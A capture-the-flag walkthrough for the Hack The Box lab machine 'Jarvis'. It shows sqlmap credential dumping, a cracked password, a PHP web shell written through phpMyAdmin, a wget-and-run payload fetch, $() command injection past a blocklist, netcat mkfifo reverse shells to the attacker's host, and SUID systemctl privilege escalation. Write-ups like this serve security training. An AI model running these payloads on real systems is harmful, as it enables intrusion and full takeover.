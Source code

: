 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
![](logo.png)
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

![](Selection_009.png)
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
![](Selection_010.png)
<br/>

```
password:-imissyou
```

## Getting Remote Code Execution

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```
After logging in with the credentials we got from sqlmap,We created a new database to upload shell ([Reference](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/))

![](Selection_011.png)
<br/>

We used the following query to create a new PHP one liner shell

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/hack.php"
```
![](Selection_012.png)
<br/>

We can execute commands now
![](Selection_013.png)
<br/>

## Low Priv Shell

We [downloaded](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) a PHP shell from here and started a listner

Now we got a shell by executing this command on our rce php file...
```
http://10.10.10.143/hack.php?cmd=wget http://10.10.15.239:8081/sh.php;php sh.php
```
![](Selection_014.png)
<br/>

## Pivoting to pepper user

we saw that we can execute this script ```simpler.py``` as user pepper 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                 
www-data@jarvis:/$ sudo -l                                                                      
sudo -l                                                                                         
Matching Defaults entries for www-data on jarvis:                                               
    env_reset, mail_badpass,                                                                    
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin               
                                                                                                
User www-data may run the following commands on jarvis:                                         
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py                                
www-data@jarvis:/$    
```

After Going through the source code we found out that if we execute this script with ```-p``` paramter, it will ask for an ip address and there we can inject our code but it have a security check which blocks some characters...

```
forbidden = ['&', ';', '-', '`', '||', '|']
```
So after googling for a while we found out [this](https://vulners.com/zdt/1337DAY-ID-28868),So according to this we can execute commands inside `$(commands)` and it will bypass those checks...

So we downloaded a ```shell.sh```  on the server which has netcat reverse shell in it ...
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1233 >/tmp/f
```

and upon executing this command we get a reverse connection
```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
then it asks for a IP address and we executed this command to get shell
```
$(sh /var/www/html/shell.sh)
```
![](Workspace 1_015.png)
<br/>

## Privesc

Upon executing this ``` find / -perm -u=s -type f 2>/dev/null ``` command we found out that ```systemctl``` will run as root 

```
pepper@jarvis:/var/www$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null 
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/var/www$ 

```
To exploit this we have to create our own service which will get us shell so we use [this](https://www.linode.com/docs/quick-answers/linux/start-service-at-boot/) website to get a template for service creation

```
[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /home/pepper/lol.sh

[Install]
WantedBy=multi-user.target
```
we saved it as ```sarthak.service``` and given proper permissions ```chmod 777 sarthak.service``` and that ```lol.sh``` has another netcat shell which will pop shell on port 1232 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1232 >/tmp/f" > lol.sh;chmod +x lol.sh
```
Now we will take reference from this [site](https://gtfobins.github.io/gtfobins/systemctl/)

  - assigned TF variable ```TF=/home/pepper/sarthak.service```
  - Link the sarthak.service ```/bin/systemctl link $TF```
  - Start a listner on port 1232
  - Enable the service ``` /bin/systemctl enable --now $TF ```
  
 OUTPUT:-
 ```
 pepper@jarvis:~$ TF=/home/pepper/sarthak.service
TF=/home/pepper/sarthak.service
pepper@jarvis:~$ /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink /etc/systemd/system/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ 
 ```
 
 And on our netcat now :)
 
 ```
 [sarthak@sarthak ~]$ nc -nvlp 1232
Connection from 10.10.10.143:44684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@jarvis:/# id
id
wuid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# hoami
whoami
root

 ```
 Hooray !!! We rooted it 
 <br/>
 ![](meme.gif)
 <br/>
This was a good and straight forward machine,
and if you guys like it stay tuned for more :)
